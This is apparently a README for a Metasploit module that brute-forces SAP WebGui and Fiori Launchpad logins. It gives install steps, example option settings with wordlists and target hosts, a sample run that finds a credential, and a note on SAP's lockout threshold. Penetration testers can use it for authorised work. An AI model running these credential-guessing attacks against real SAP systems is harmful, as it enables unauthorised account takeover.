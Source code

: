 # SAP WebGui & SAP Fiori Launchpad brute-force module for Metasploit

This module is written for the Metasploit Framework to brute-force SAP WebGui and SAP Fiori Launchpad.
It heavly base on the original module found in the root of the repository.

While using this module, please keep in mind, that SAP does not allow more than 99 failed logins until a user get locked out. (Parameter: `login/fails_to_user_lock`)

## Installation

Download the metasploit module and copy it into the custom modules path
```bash
mkdir -p ~/.msf4/modules/auxiliary/scanner/sap/
cp sap_web_bruteforce.py ~/.msf4/modules/auxiliary/scanner/sap/
chmod +x ~/.msf4/modules/auxiliary/scanner/sap/
```

## Usage

- Start Metasploit Framework
```bash
msfconsole -q
```
- switch to the module
```bash
use auxiliary/scanner/sap/sap_web_bruteforce
```

### Example configuration SAP Fiori Launchpad
```text
Module options (auxiliary/sap/sap_web_bruteforce):

   Name        Current Setting                          Required  Description
   ----        ---------------                          --------  -----------
   BRUTE_MODE  fiori                                    no        Which endpoint you want to attack (webgui/fiori)
   PASS_FILE   /opt/wordlists_custom/sap_passwords.txt  yes       Wordlist with passwords
   RHOSTS      192.168.77.4                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file
                                                                  :<path>'
   RPORT       50001                                    yes       Target port
   SAP_CLIENT  001                                      no        Target SAP client
   SAP_SID     A4H                                      yes       Target SAP SID
   SSL         True                                     yes       use SSL (true/false)
   TARGETURI   /sap/bc/ui2/flp                          yes       The base path
   THREADS     1                                        yes       The number of concurrent threads (max one per host)
   USER_FILE   /opt/wordlists_custom/sap_users.txt      yes       Wordlist with usernames
```

### Example configuration SAP WebGui
```text
Module options (auxiliary/sap/sap_web_bruteforce):

   Name        Current Setting                          Required  Description
   ----        ---------------                          --------  -----------
   BRUTE_MODE  webgui                                   no        Which endpoint you want to attack (webgui/fiori)
   PASS_FILE   /opt/wordlists_custom/sap_passwords.txt  yes       Wordlist with passwords
   RHOSTS      192.168.230.30                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file
                                                                  :<path>'
   RPORT       8000                                     yes       Target port
   SAP_CLIENT  001                                      no        Target SAP client
   SAP_SID     XYZ                                      yes       Target SAP SID
   SSL         false                                    yes       use SSL (true/false)
   TARGETURI   /sap/bc/gui/sap/its/webgui               yes       The base path
   THREADS     1                                        yes       The number of concurrent threads (max one per host)
   USER_FILE   /opt/wordlists_custom/sap_users.txt      yes       Wordlist with usernames
```

### Run the module

```bash
msf6 auxiliary(sap/sap_web_bruteforce) > run

[*] Running for 192.168.230.30...
[*] Valid credential ddic:Security123
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
